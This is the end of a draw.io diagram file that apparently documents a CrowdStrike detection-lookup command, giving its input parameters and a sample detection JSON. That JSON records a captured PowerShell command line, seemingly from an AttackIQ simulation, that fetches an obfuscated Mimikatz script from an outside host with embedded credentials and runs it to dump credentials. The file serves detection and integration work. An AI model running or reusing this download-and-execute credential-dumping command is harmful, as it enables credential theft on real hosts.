          <mxGeometry x="4870" y="465" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-181" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;Command Name&lt;/div&gt;&lt;div&gt;RSA_CrowdstrikeHostRelatedDetection&lt;/div&gt;&lt;div&gt;Parameter 1: Aids&lt;/div&gt;&lt;div&gt;[&quot; &quot;]&lt;/div&gt;&lt;div&gt;Parameter 2: Last Day&lt;/div&gt;&lt;div&gt;7&lt;/div&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="655" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-182" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;All cid related the host&lt;br&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;meta&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;query_time&quot;: 0.053,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;powered_by&quot;: &quot;legacy-detects&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;trace_id&quot;: &quot;e00a51e3-fe3d-4a13-bee1-840e2851d0be&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;resources&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cid&quot;: &quot;9140393f79cd4b3ca3298ec0d718d788&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;created_timestamp&quot;: &quot;2023-04-16T12:02:3.38Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;detection_id&quot;: &quot;ldt:6de5f3fad8004ca8a97cdc7c565edf9c:18566056045&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;device&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;device_id&quot;: &quot;6de5f3fad8004ca8a97cdc7c565edf9c&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cid&quot;: &quot;9140393f79cd4b3ca3298ec0d718d788&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;agent_load_flags&quot;: &quot;1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;agent_local_time&quot;: &quot;2023-04-06T14:29:44.117Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;agent_version&quot;: &quot;6.50.164.0&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bios_manufacturer&quot;: &quot;VMware, Inc.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bios_version&quot;: &quot;VMW71.00V.13989454.B64.191&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;config_id_base&quot;: &quot;65994753&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;config_id_build&quot;: &quot;16410&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;config_id_platform&quot;: &quot;3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;external_ip&quot;: &quot;216.251.148.178&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;hostname&quot;: &quot;WIN-5KM58PAUOE8&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;first_seen&quot;: &quot;2023-02-06T22:52:02Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;last_seen&quot;: &quot;2023-04-16T11:39:39Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;local_ip&quot;: &quot;192.168.87.139&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;mac_address&quot;: &quot;00-50-56-b7-f8-df&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;major_version&quot;: &quot;10&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;minor_version&quot;: &quot;0&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;os_version&quot;: &quot;Windows Server 2016&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;platform_id&quot;: &quot;0&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;platform_name&quot;: &quot;Windows&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;product_type&quot;: &quot;3&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;product_type_desc&quot;: &quot;Server&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;status&quot;: &quot;normal&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;system_manufacturer&quot;: &quot;VMware, Inc.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;system_product_name&quot;: &quot;VMware7,1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;groups&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;5563d318b39c4b8395faa26eef031a35&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;modified_timestamp&quot;: &quot;2023-04-16T11:41:25Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;behaviors&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;device_id&quot;: &quot;6de5f3fad8004ca8a97cdc7c565edf9c&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;timestamp&quot;: &quot;2023-04-16T12:01:48Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;template_instance_id&quot;: &quot;11&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;behavior_id&quot;: &quot;10147&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;filename&quot;: &quot;powershell.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;filepath&quot;: &quot;\\Device\\HarddiskVolume4\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;alleged_filetype&quot;: &quot;exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmdline&quot;: &quot;powershell \&quot;[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};\&quot; \&quot;[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;\&quot; \&quot;function get-hash([string]$textToHash){$hasher = new-object System.Security.Cryptography.MD5CryptoServiceProvider; $toHash = [System.Text.Encoding]::UTF8.GetBytes($textToHash); $hashByteArray = $hasher.ComputeHash($toHash); foreach($byte in $hashByteArray) {$result += &#39;{0:X2}&#39; -f $byte};return $result;};\&quot; \&quot;try{$webclient = new-object System.Net.WebClient; $credCache = new-object System.Net.CredentialCache; $creds = new-object System.Net.NetworkCredential(&#39;aiq_mlwre_scenarios&#39;,&#39;nTrBxu74T8u9&#39;);$credCache.Add(&#39;https://testing.scenarios.attackiq-ntm.com/124d22153e45aefaf7294d66846c876234b2b09cc4a16994de9756874d08df33/obf_mim.ps1&#39;, &#39;Basic&#39;, $creds);$webclient.Credentials = $credCache; $mimi=$webclient.DownloadString(&#39;https://testing.scenarios.attackiq-ntm.com/124d22153e45aefaf7294d66846c876234b2b09cc4a16994de9756874d08df33/obf_mim.ps1&#39;);}catch [Net.WebException]{&#39;Download failed&#39;; exit -1 };\&quot; \&quot;if ((get-hash($mimi)) -eq &#39;A0B2F9D7CA22E9848585E238D8F32294&#39;) { IEX $mimi; Invoke-Mimikatz -DumpCreds } else { &#39;Invalid HASH for downloaded Mimikatz PowerShell script&#39;; exit -2 }\&quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;scenario&quot;: &quot;credential_theft&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;objective&quot;: &quot;Gain Access&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;tactic&quot;: &quot;Credential Access&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;tactic_id&quot;: &quot;TA0006&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;technique&quot;: &quot;OS Credential Dumping&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;technique_id&quot;: &quot;T1003&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;display_name&quot;: &quot;PShellMimikatz&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;description&quot;: &quot;A PowerShell script appears to be launching mimikatz, a password dumping utility. This is often launched as part of a PowerShell exploit kit. Decode and review the script.&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;severity&quot;: 70,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;confidence&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_type&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_value&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_source&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ioc_description&quot;: &quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user_name&quot;: &quot;WIN-5KM58PAUOE8$&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user_id&quot;: &quot;S-1-5-18&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;control_graph_id&quot;: &quot;ctg:6de5f3fad8004ca8a97cdc7c565edf9c:18566056045&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;triggering_process_graph_id&quot;: &quot;pid:6de5f3fad8004ca8a97cdc7c565edf9c:454074737021&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;sha256&quot;: &quot;e82115ffd93298cbf1d5837677f5e1cfd5fc515b53f2cf02c473b0f63d542bca&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;md5&quot;: &quot;349f866bd2fa869ed047707c5723b9f1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_details&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_sha256&quot;: &quot;5275c42f7359fa2c7ec473be3240e57d5ce5b9301a26bd2e98e89bb9db074581&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_md5&quot;: &quot;22730c835d3129c7567b963699763cbe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_cmdline&quot;: &quot;\&quot;C:\\Program Files\\AttackIQ\\Agent\\engine\\py3\\python\&quot; \&quot;C:\\Program Files\\AttackIQ\\Agent\\attack_graph.py\&quot;&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;parent_process_graph_id&quot;: &quot;pid:6de5f3fad8004ca8a97cdc7c565edf9c:454062376310&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;pattern_disposition&quot;: 2304,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;pattern_disposition_details&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;indicator&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;detect&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;inddet_mask&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;sensor_only&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;rooting&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_process&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_subprocess&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;quarantine_machine&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;quarantine_file&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;policy_disabled&quot;: true,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_parent&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;process_blocked&quot;: true,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;registry_operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;critical_process_disabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;bootup_safeguard_enabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;fs_operation_blocked&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;handle_operation_downgraded&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kill_action_failed&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;blocking_unsupported_or_disabled&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;suspend_process&quot;: false,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;suspend_parent&quot;: false&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="4870" y="690" width="200" height="100" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
